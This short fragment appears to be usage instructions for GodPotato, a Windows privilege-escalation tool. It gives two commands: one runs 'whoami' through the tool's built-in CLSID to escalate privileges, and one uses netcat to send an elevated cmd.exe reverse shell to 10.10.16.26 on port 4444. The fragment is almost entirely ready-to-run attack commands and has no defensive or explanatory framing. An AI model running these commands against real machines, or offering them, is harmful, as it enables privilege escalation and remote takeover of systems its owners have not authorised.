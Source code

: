 
Use the program's built-in Clsid for privilege escalation and execute a simple command
```
GodPotato -cmd "cmd /c whoami"
```

```
godpotato.exe -cmd "nc -t -e C:\Windows\System32\cmd.exe 10.10.16.26 4444"
```